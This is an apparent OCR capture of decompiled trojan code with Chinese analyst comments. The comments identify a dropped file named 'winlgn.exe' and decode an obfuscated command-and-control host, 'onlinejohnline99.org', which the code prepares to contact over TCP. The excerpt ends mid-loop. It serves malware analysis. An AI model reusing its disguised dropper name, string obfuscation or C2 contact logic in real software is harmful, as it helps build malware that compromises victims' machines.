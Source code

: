 ```c
  // 将存储在'v2'中的字符串连接到'byte_4133A0'中
  strcat(byte_4133A0, v2);
  // 将字符串"xjomho/fyf"连接到'Path'中
  strcat((char *)Path, sub_4026E0("xjomho/fyf", 1));                                       // winlgn.exe   // 这个是木马创建的文件

  // 调用函数sub_401740()
  sub_401740();

  // 获取当前模块的文件名并将其存储在'Filename'中
  GetModuleFileNameA(0, Filename, 0x104u);

  // 如果文件名与'Path'不同，并且无法以只读模式打开文件，则调用sub_402740()
  if ( strcmp(Filename, (const char *)Path) && !fopen((const char *)Path, "rb") )
    sub_402740();

  // 当WSAStartup()返回非零值时，持续睡眠
  while ( WSAStartup(0x202u, &stru_412D00) )
    Sleep(0x1388u);

  // 初始化pHints结构体的一些成员
  pHints.ai_flags = 0;
  pHints.ai_addrlen = 0;
  pHints.ai_canonname = 0;
  pHints.ai_addr = 0;
  pHints.ai_next = 0;
  pHints.ai_family = 0;
  pHints.ai_socktype = 1;
  pHints.ai_protocol = 6;

  // 获取一个字符串"pomjofkpiomjof::/psh"并将其存储在'v5'中
  v5 = sub_4026E0("pomjofkpiomjof::/psh", 1);                                                 // onlinejohnline99.org
  v7 = pNodeName;
  do
  {
    LOBYTE(v6) = *v5;
    *v7++ = *v5++;
  }
  while ( (_BYTE)v6 );

  // 调用函数sub_401570()，传入参数v6和v7
  sub_401570(v6, v7);

  // 用循环比较'Path'和'Filename'中的字符，直到出现不相等的字符或遇到空终止符为止
  v8 = Path;
  v9 = Filename;
  while ( 1 )
  {
    v10 = (unsigned __int8)*v9 < *v8;
    if ( *v9 != *v8 )
      break;
    if ( !*v9 )
      goto LABEL_17;
    v11 = v9[1];
    v10 = v11 < v8[1];
    if ( v11 != v8[1] )
      break;
    v9 += 2;
    v8 += 2;
    if ( !v11 )
    {
LABEL_17:
```